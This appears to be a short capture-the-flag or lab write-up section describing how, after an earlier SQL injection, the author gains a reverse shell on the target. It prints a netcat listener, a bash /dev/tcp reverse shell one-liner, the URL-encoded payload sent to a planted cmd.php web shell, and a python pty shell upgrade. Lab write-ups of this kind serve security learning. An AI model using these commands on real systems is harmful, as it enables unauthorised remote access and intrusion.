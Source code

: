 # Bonus - reverse shell execution

We continue from the point in Writeup 1 where the SQL injection is performed. From our pentesting VM, we start a Netcat listener:
``` shell
nc -nvlp 4242
```

As for the shell execution, we opt for a `bash -i` syntax:
``` shell
sh -i >& /dev/tcp/IP/4242 0>&1
```

This snippet is inserted into the query using URL encoding:
``` http
https://IP/forum/templates_c/cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2FIP%2F4242%200%3E%261
```

The shell is not fully interactive, so we can make it a bit better using `python`:
``` python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From there, we proceed with the standard enumeration as outlined in Writeup 1—home, lookatme, password.
